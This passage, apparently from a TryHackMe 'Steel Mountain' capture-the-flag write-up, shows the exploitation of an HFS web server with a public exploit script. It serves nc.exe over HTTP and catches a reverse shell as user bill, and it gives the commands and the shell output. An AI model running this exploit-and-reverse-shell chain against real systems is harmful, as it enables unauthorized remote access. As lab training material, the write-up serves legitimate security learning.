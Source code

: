 Looking for exploits against this we find: https://www.exploit-db.com/exploits/39161


### Exploitation

Looking at the script we need to serve a copy of nc.exe, fire the exploit (I needed to fire it twice) and we can catch a shell back as user bill:

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ python2 hfs_rce.py 10.10.72.43 8080
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.72.43 - - [11/Dec/2024 10:41:11] "GET /nc.exe HTTP/1.1" 200 -
10.10.72.43 - - [11/Dec/2024 10:41:11] "GET /nc.exe HTTP/1.1" 200 -
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ nc -lnvp 443                                      
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.72.43] 49218
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>hostname
hostname
steelmountain
```

From here we can grab the user.txt flag:

![thm_steel_mountain_user.png](../assets/steel_mountain_assets/thm_steel_mountain_user.png)

